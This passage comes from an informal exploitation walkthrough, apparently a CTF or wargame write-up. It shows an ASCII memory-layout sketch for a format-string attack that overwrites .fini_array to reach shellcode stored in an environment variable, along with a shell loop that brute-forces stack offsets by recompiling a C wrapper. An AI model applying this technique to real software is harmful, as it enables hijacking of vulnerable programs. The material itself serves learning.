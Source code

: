 ## ascii or it didn't happen!

at this point I got real confused so let's try to draw what we know about the memory layout, for future reference. pen and paper are invaluable when learning this stuff, with pointers going back and forth it's real easy to get confused without an image.

it kinda looks like this (addresses are approximate to give a hunch of directions):

```
~0x08048154 ---- low memory, start of binary's addressing space
.
. various elf stuff, .got, .plt etc
.
0x08049f0c <--- .fini_array
.
~0x0804a024 <--- end of binary's addressing space
.
.
~0x0fff0000 <--- start of stack is around high memory
.
~0x0ffe1000 <--- $esp will be pointing around here when printf is called
.
.
~0x0fffc000 <--- argv
~0x0fffc001 <--- env[0]
~0x0fffc002 <--- env[1] (shellcode)
~0x0fffc100 <--- env[2] (fmtstring) "AA..AA%off1$nAA..AA%off2$nAA..AA%off3$nAA..AA%off4$n"
~0x0fffc002 <--- env[3] (address of fini) "0x08049f0c, 0x08049f0e, 0x08049f0e, 0x08049f0f", we need to point off1..4 in the fmtstring to here
.
.
~0x0fffffff <--- bottom of the available stackspace

```

next step will be to find the pointers' offsets from main's stackframe.

## scavenge the dump

in the alignment step we saw our strings being thousands of words away from `$esp`, but in reality they are not. why that is, I don't even. extra padding from gdb? maybe.

thing is, we have a way to dump memory (`%offset$x`) and will lazily whip up a templatized version of our c wrapper that we can recompile and rerun over and over again with different offsets, dumping memory until the values we want to point to. a [shpell](https://cybre.space/@yuki_the_maven/4290366) can look like this:
```
for i in $(seq 0 130);
  do cat wrapper.c.tpl \
  | sed "s/offset1/$(printf '%03d' $i)/" \
  > wrapper.c \
  && gcc wrapper.c \
  && echo ${i} \
  && ./a.out;
done
```
given that `wrapper.c.tpl` is a valid c program *minus* the offset that is a placeholder instead. this replaces the placeholder with values 0-130 (tweak as needed, one of my rounds ended up around 524) padded to three digits (remember you want to keep the string sizes static or you risk skewing addresses!), compiles and runs to dump the memory - along with the offset we're looking at for reference. serve cold with eyeballing or sprinkle with fresh `grep` before serving. you can do fancier things to dump more stuff in one go (like using `expr` and more palceholders to do bash math and go 4 by 4).
